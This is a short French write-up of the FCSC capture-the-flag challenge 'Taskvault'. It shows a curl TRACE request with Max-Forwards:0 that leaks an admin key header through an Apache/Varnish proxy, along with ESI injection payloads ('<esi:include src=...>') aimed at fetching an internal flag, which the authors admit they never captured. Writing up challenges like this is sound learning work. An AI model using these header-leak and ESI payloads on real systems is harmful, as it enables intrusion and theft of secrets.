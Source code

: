Taskvault
==================

Exploit 
---------

D'abord on cherche a obtenir la clé admin,

On sait que le proxy Apache autorise l'utilisation de TRACE

Mais l'application Express ne le permet pas

On va donc utiliser Max-Forwards:0 pour que la requête n'atteigne pas le serveur express : 

.. code-block:: console
    
    curl -X TRACE -H "Max-Forwards:0" https://taskvault.fcsc.fr  

    TRACE / HTTP/1.1
    host: taskvault.fcsc.fr
    user-agent: curl/8.11.1
    accept: */*
    max-forwards: 0
    X-Forwarded-For: 176.137.240.135, 51.77.135.65
    Via: 1.1 taskvault-varnish (Varnish/7.6)
    X-Admin-Key: 6d02ed57299292a47615254957d073cc75cc7855248684960946838c1f786081
    X-Varnish: 2330548

Le mieux qu'on ait trouvé, mais inefficace dans note.content : 

${document.getElementById('abcd').innerHTML = '<esi:include src=http://127.0.0.1:1337>'}

En faites on pouvait injecter direct dans id="ICI" car le varnish se fou de la structure html, il fallait juste mettre un ">" pour casser le contexte 

.. code-block:: console
    
    ><esi:include src='http://give_me_the_flag/'>

On est pas passé loin mais tant pis, on aura quand même découvert ESI et Max-Forwards ! 